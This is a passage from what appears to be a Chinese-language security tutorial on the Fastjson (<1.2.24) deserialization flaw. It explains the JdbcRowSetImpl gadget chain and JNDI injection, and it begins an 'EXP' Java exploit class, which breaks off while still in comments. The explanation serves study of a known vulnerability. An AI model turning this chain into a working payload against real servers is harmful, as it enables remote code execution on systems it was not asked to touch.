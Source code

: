 *   **不需要变量不是transient/可控变量：**
    
    1.  变量有对应的setter
        
    2.  或是public/static
        
    3.  或满足条件的getter(返回值是)：
        

[![](assets/1701612260-e721f698fee9fee33ea0cc516672b9ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723225652-28dc968c-2969-1.png)

*   **反序列化入口点不是readObject，而是setter或者是getter**
    
*   **执行点是相同的：反射或者类加载**
    

## FastJson<1.2.24：

### JdbcRowSetImpl类+JNDI注入（出网）：

#### 调用链

*   我们首先找到了漏洞的利用点是一个`JNDI`注入：

[![](assets/1701612260-542e741f8c958620dc3c364be9d42afe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723225950-92b81dce-2969-1.png)

*   然后我们要看一下`getDataSourceName`下面的参数可不可控，可以看到存在setter方法，所以可控：

[![](assets/1701612260-55a68703a5fc25a213368fc49f8180df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230020-a4a147e0-2969-1.png)

*   这里我们就要找一下对应的setter或者是符合条件的getter方法能够调用connect的方法：这里我们找到了三种，因为我们要用get或者是set方法，但是这里的get并不能满足我们上面所说的要求，所以这里我们选择setter方法：

[![](assets/1701612260-0fbd17af2ae6ac8a1643dc9fa5681d6b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230047-b48325de-2969-1.png)

[![](assets/1701612260-998696022ddb6518147d740b6cb2dbee.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230054-b8dc871a-2969-1.png)

#### EXP:

*   我们生成一下jndi注入的payload然后导入：

[![](assets/1701612260-04d7d043f01a4c0baff9e0161058a123.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230103-be4be006-2969-1.png)

```plain
package EXP;

import com.alibaba.fastjson.JSON;

public class FastJsonJdbcRowSetlmpl {
    public static void main(String[] args) throws Exception{


//@type调用com.sun.rowset.JdbcRowSetImpl类里面的setter触发connet,connect触发JNDI注入


// 第二个键对传入变量名
        /*
            public void setDataSourceName(String name) throws SQLException {
        */
// 第二个值对应JNDI注入的链接


// 第三个值对应调用connect方法的setAutoCommit
        /*
            public void setAutoCommit(boolean var1) throws SQLException {
```